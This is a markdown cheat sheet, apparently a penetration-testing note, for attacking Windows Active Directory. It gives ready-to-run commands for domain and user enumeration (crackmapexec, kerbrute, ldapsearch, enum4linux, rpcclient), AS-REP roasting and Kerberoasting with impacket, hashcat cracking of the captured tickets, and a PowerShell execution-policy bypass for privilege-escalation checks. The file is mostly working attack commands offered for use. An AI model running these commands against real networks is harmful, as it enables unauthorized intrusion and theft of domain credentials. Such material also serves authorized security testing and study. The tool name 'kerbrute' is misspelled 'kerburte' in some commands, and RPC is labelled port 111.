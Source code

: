 ##  Get DOMAIN-Name & Device name 
```
$ crackmapexec smb [IP] 
$ crackmapexec smb 10.10.1.12
```
###  Users fuzzing & enumeration
+ Users fuzzing
```
$ kerbrute userenum  [wordlist]  -d [DC-name] --dc [Dc-ip]
$ kerbrute userenum  /usr/share/wordlists/dirb/others/names.txt  -d test.com --dc 10.10.1.12
```
+ Users enumeration using LDAP(Port 389)
```
$ ldapsearch -H ldap://[DC-IP] -x -b [namingContexts] "(objectClass=person)" | grep "sAMAccountName:" 
$ ldapsearch -H ldap://10.10.1.12 -x -b DC=test,DC=com "(objectClass=person)" | grep "sAMAccountName:" 

```
+ Users enumeration using enum4linux
```
$ enum4linux -v [DC-ip]
$ enum4linux -v 10.10.1.12
```
+ Users enumeration using rpcclient (Port 111)
```
$ rpcclient [DC-ip] -U "" -N 
$ enumdomusers
```
## Active Directory Attacks

### [1] Non-Pre-authentication AS_REP (TGT)
```
$ impacket-GetNPUsers  [dc]/ -no-pass -u [usersname.txt]  -dc-ip [IP]  
$ impacket-GetNPUsers  test.com/ -no-pass -u users.txt  -dc-ip 10.10.1.12

# Use hashcat crack ticket
$ hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```
#### OR
```
$ kerburte --dc [ip] -d [domain_name] [user.txt] --downgrade
$ kerburte --dc 10.10.1.12 -d test.com user.txt  --downgrade

# Use hashcat crack ticket
$ hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt 
```

### [2] Kerberoasting SPN (TGS)
 #### [A] Enumerate servicePrincipalNames (SPN)
 + using Linux (credentials required)
 ```
$ impacket-GetUserSPNs [Domain-name]/[user]:[pass] -dc-ip [IP]
$ impacket-GetUserSPNs test.com/user:pass123 -dc-ip 10.10.1.12
 
 ```
 + using attacker machine (with out credentials)
 ```
$ powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
$ Get-NetUser -SPN | select serviceprincipalname
 
 ```
 
 

